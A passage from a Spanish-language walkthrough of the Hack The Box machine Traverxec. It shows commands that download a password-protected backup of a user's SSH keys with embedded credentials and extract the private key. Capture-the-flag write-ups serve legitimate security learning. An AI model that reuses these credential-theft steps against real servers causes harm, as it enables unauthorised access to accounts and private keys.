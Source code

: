 Dentro de la carpeta `protected-file-area` podemos ver un archivo comprimido:

```shell
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

Si intentamos ir a este directorio con el servicio web, podemos ver una respuesta `401 Unauthorized`, por lo que necesitamos unas credenciales válidas para autenticarnos en el servicio web usando la URL:

```shell
❯ curl 10.10.10.165/~david/protected-file-area/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>401 Unauthorized</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>401 Unauthorized</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>         
```

Podemos transferir este archivo con wget o curl siempre que nos autentiquemos en el servicio:

```shell
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
curl http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz --output backup-ssh-identity-files.tgz
```

Luego podemos descomprimir su contenido:

```shell
❯ tar -xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

Hay algunas claves de SSH. Podemos intentar validar si estos pares de claves SSH están autorizados por el servidor verificando si la clave pública `id_rsa.pub` está en el archivo` authorized_keys`:

```shell
❯ cat id_rsa.pub

───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa.pub
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C
       │ 66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0F
       │ vhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯
❯ cat authorized_keys
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```